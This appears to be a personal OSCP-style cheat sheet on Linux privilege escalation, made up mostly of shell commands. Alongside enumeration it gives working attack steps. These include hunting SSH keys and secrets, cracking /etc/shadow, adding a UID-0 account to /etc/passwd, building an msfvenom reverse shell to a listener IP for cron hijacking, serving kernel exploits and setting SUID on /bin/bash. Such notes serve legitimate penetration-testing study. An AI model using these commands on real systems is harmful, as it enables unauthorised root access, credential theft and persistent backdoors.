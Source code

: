 ### Methodology (https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
If moving laterally first check home directories if denied this indicates we need to escalate to that user first. 
See what files are readable especially configs
try brute ssh
try su user default or simple creds
#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

#### Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt

#Find all files that are readble by user.
find /etc -type f -readable 2>/dev/null

#Find web config files.
find /var/www/html -type f \( -name "*.config" -o -name "*.txt" \)


```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog

#Can we write to cronjob path?
	#Check cronjob or binary location, is its original location first in the path or second? If its after the path we can write to continue.
	find / -name <name> /dev/null
	whereis <name>
	
	#Create shell
	msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.118.3 LPORT=21

	OR try another shell such as
	bash / python.

	#Write shell to path dir.
	#Wait for cronjob to run.

#Can we write to an executable that is being called inside the cronjob?
	
```


### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```

#### Docker Breakout

```
#Confirm you are in docker container first.
find / -name .dockerenv 2>/dev/null

#Follow these guides for breakouts.
https://juggernaut-sec.com/docker-breakout-lpe/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation
```


```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```